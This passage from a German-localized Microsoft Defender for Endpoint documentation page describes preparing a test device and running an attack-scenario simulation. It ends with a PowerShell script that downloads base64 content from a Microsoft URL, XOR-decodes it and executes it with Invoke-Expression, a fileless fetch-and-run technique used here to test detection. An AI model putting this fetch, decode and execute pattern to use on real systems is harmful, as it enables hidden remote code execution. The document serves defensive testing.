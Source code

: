    1. <span data-ttu-id="dfa3e-144">[Aktivieren sie Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="dfa3e-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="dfa3e-145">Wenn Sie Probleme beim Aktivieren von Windows Defender Haben, lesen Sie dieses [Problembehandlungsthema](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="dfa3e-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="dfa3e-146">Stellen Sie sicher, dass das Testgerät [in Microsoft Defender for Endpoint onboarded ist.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="dfa3e-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="dfa3e-147">Wenn Sie einen vorhandenen Mandanten verwenden und Gerätegruppen implementieren, erstellen Sie eine dedizierte Gerätegruppe für das Testgerät, und drücken Sie sie in der Konfigurations-UX auf die oberste Ebene.</span><span class="sxs-lookup"><span data-stu-id="dfa3e-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="dfa3e-148">Ausführen der Simulation des Angriffsszenarios</span><span class="sxs-lookup"><span data-stu-id="dfa3e-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="dfa3e-149">So führen Sie die Simulation des Angriffsszenarios aus:</span><span class="sxs-lookup"><span data-stu-id="dfa3e-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="dfa3e-150">Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.</span><span class="sxs-lookup"><span data-stu-id="dfa3e-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="dfa3e-151">Öffnen Sie ein Windows PowerShell auf dem Testgerät.</span><span class="sxs-lookup"><span data-stu-id="dfa3e-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="dfa3e-152">Kopieren Sie das folgende Simulationsskript:</span><span class="sxs-lookup"><span data-stu-id="dfa3e-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
